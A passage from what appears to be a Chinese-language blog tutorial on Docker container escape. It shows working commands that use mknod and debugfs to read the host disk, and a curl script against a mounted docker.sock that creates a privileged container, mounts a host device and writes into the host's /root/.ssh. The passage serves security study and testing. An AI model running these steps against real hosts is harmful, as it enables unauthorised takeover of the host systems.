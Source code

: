 这里我们只需要了解第一种形式。  
```bash
cd /
mknod test b 253 0 #创建一个与宿主机相同设备号的设备文件
debugfs -w test    #通过debugfs去访问
```

这时候我们可以查看宿主机的文件，获取配置信息等；注意，这里的主设备号是253，次设备号是0，不同的宿主机的环境可能不一样，对于k8s集群的容器环境，参考腾讯蓝军的方法，获取主次设备号可以从/proc/self/mountinfo中的 /etc/hosts， /dev/termination-log，/etc/resolv.conf， /etc/hostname 得到；由于我的测试环境是单一容器，无法在mountinfo信息中找到从宿主机挂载到容器内的路径，我的方法是：  
```bash
df -l #获取到容器内的挂载信息，查看挂载到/etc/hosts的Filesystem
```
找到了宿主机的文件系统，再去mountinfo(如果docker中没有需要将/dev/xxx挂载到容器内)里面去查看，就可以获取到主次设备号，进行后续的逃逸操作。  

## 0x03 特殊路径挂载逃逸
### /var/run/docker.sock挂载逃逸
当挂载了docker.sock，我们可以创建一个特权容器进行逃逸，也就是docker in docker。  
首先我们创建一个测试容器:  
```bash
sudo docker run -it -v /var/run/docker.sock:/var/run/docker.sock --name=test2 ubuntu /bin/bash
```  
考虑到容器内没有docker client，这时候回顾下开头讲的Docker Engine API，我们可以用curl命令去创建一个特权容器并挂载设备，写入ssh key，达到逃逸的目的，为了简化操作，实战中可以简化成一个脚本，这里参考了:  
<https://gist.github.com/dapplebeforedawn/7733a6486f02d21f68053c0c1e43431f>  
修改之后的脚本如下:
```sh
#! /usr/bin/env bash

# Create the container with a long running process.  If PID1 exists before
# we send the exec commands, they will fail because the container is not running
# 创建一个特权容器
CONTAINER_NAME="TEST-1"
curl --silent --unix-socket /var/run/docker.sock "http://localhost/containers/create?name=${CONTAINER_NAME}" -XPOST \
  -H "Content-Type: application/json" \
  -d '{
    "Image": "ubuntu",
    "Cmd": [ "sleep", "10"],
    "HostConfig":{"Privileged":true}
  }' | jq '.'

# Start the container
#
curl --silent --unix-socket /var/run/docker.sock "http://localhost/containers/${CONTAINER_NAME}/start" -XPOST \
  -H "Content-Type: application/json" \
  --output /dev/null \
  --write-out "%{http_code}"
echo ""

# Create the exec
# 执行命令
EXEC_CREATE=`curl --silent --unix-socket /var/run/docker.sock "http://localhost/containers/${CONTAINER_NAME}/exec" -XPOST \
  -H "Content-Type: application/json" \
  -d '{
    "AttachStdout": true,
    "Tty": true,
    "Cmd": [ "bash", "-c", "mkdir test && mount /dev/xxx /test && touch /test/root/.ssh/flag.txt" ]
  }'
`
echo $EXEC_CREATE | jq '.'

```